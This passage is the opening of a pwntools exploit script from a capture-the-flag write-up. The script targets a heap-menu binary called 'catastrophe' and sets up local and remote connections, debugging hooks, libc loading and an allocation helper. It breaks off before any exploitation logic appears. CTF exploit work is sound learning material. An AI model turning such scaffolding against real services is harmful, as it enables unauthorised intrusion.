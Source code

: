 ## Appendices

Final exploit:  
```py  
#!/usr/bin/env python  
# -*- coding: utf-8 -*-

# this exploit was generated via  
# 1) pwntools  
# 2) ctfmate

import os  
import time  
import pwn

# Set up pwntools for the correct architecture  
exe = pwn.context.binary = pwn.ELF('catastrophe')  
pwn.context.delete_corefiles = True  
pwn.context.rename_corefiles = False  
pwn.context.timeout = 2000

host = pwn.args.HOST or '127.0.0.1'  
port = int(pwn.args.PORT or 1337)

def local(argv=[], *a, **kw):  
   '''Execute the target binary locally'''  
   if pwn.args.GDB:  
       return pwn.gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)  
   else:  
       return pwn.process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):  
   '''Connect to the process on the remote host'''  
   io = pwn.connect(host, port)  
   if pwn.args.GDB:  
       pwn.gdb.attach(io, gdbscript=gdbscript)  
   return io

def start(argv=[], *a, **kw):  
   '''Start the exploit against the target.'''  
   if pwn.args.LOCAL:  
       return local(argv, *a, **kw)  
   else:  
       return remote(argv, *a, **kw)

gdbscript = '''  
b* main  
source ~/Downloads/pwndbg/gdbinit.py  
continue  
'''.format(**locals())

io = None

libc = pwn.ELF("libc.so.6")

io = start()

def alloc(idx, data, size, s=False):  
  io.sendlineafter("-\n> ", b"1")  
  io.sendlineafter("Index?\n> ", str(idx).encode())  
  io.sendlineafter("> ", str(size).encode())  
  
  if s:  
```